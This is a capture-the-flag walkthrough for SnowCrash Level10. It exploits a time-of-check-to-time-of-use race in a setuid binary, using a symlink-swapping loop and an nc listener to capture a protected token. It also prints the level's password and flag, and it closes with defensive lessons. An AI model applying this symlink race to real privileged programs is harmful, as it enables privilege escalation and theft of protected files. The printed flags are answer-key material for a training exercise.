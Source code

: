 # SnowCrash Level10 Walkthrough

## Overview

Level10 presents a **Time-of-Check to Time-of-Use (TOCTOU)** vulnerability in a setuid program. The challenge requires exploiting a race condition between permission checking and file access to read a protected token file.

## Initial Reconnaissance

In the home directory, we find two files:

```bash
level10@SnowCrash:~$ ls -la
total 28
dr-xr-x---+ 1 level10 level10   140 Mar  6  2016 .
d--x--x--x  1 root    users     340 Aug 30  2015 ..
-r-x------  1 level10 level10   220 Apr  3  2012 .bash_logout
-r-x------  1 level10 level10  3518 Aug 30  2015 .bashrc
-rwsr-sr-x+ 1 flag10  level10 10817 Mar  5  2016 level10
-r-x------  1 level10 level10   675 Apr  3  2012 .profile
-rw-------  1 flag10  flag10     26 Mar  5  2016 token
```

Key observations:

- `level10`: An executable with SUID bit set (runs as flag10)
- `token`: A protected file we need to read (readable only by flag10)

## Analyzing the Executable

Basic Program Behavior
Testing the executable reveals its functionality:

```bash
level10@SnowCrash:~$ ./level10
./level10 file host
       sends file to host if you have access to it
```

The program requires a file and host argument, then sends the file contents to the specified host if permissions allow.

## Attempting to Read the Token

Attempting to Read the Token

```bash
level10@SnowCrash:~$ ./level10 token localhost
You don't have access to token
```

## Understanding the Vulnerability

### Reverse Engineering Insights

Decompiling the program reveals:

1. It uses access() to check file permissions

2. Then uses open() to actually read the file

3. There's a race condition between these operations

From the access man page warning:

```text
  Warning: Using these calls to check if a user is authorized to,
       for example, open a file before actually doing so using open(2)
       creates a security hole, because the user might exploit the short
       time interval between checking and opening the file to manipulate
       it.  For this reason, the use of this system call should be
       avoided.  (In the example just described, a safer alternative
       would be to temporarily switch the process's effective user ID to
       the real ID and then call open(2).)
```

## TOCTOU Exploit Concept

We can exploit the time gap between:

1. access() checking permissions (as the current user)
2. open() reading the file (as flag10, due to SUID)

## Exploit Development

### Preparation

1. Create a dummy file we can read:

```bash
echo "test" > /tmp/fake
```

2. Set up a symlink switching script:

```bash
while true; do
    ln -sf /tmp/fake /tmp/exploit;
    ln -sf ~/token /tmp/exploit;
done &
```

### Launching the Exploit

1. In one terminal, run the level10 program repeatedly:

```bash
while true; do
    ./level10 /tmp/exploit 127.0.0.1;
done
```

2. In another terminal, start a listener:

```bash
nc -lk 6969
```

## Successful Exploitation

After running the exploit, we eventually receive the token contents:

```text
woupa2yuojeeaaed06riuj63c
```

## Privilege Escalation

1. Switch to flag10 user:

```bash
level10@SnowCrash:~$ su flag10
Password: woupa2yuojeeaaed06riuj63c
```

2. Get the final flag:

```bash
flag10@SnowCrash:~$ getflag
Check flag.Here is your token : feulo4b72j7edeahuete3no7c
```

## Technical Analysis

### Why the Exploit Works

1. **Race Condition**: The tiny window between access() and open() allows us to swap the symlink

2. **Timing**:
   access() checks /tmp/exploit pointing to /tmp/fake (allowed)
   We quickly switch it to point to ~/token
   open() follows the symlink to ~/token (allowed as flag10)

3. **Network Exfiltration**: The program sends the file contents over the network, allowing us to capture the token

## Key Learning Points

1. **TOCTOU Vulnerabilities**: Security checks must be atomic with operations
2. **Symlink Attacks**: Symbolic links can be dangerous with time-sensitive operations
3. **SUID Pitfalls**: Special permissions require careful programming
4. **Race Conditions**: Even nanosecond timing windows can be exploited

## Security Implications

This challenge demonstrates why:

- **access()** should never be used for security checks
- File operations should use open() with O_NOFOLLOW
- Privileged programs must be carefully audited for race conditions
- Temporary files and symlinks require special handling in secure code

## Next Steps

With the flag feulo4b72j7edeahuete3no7c, we can now proceed to Level11 of the SnowCrash challenge.
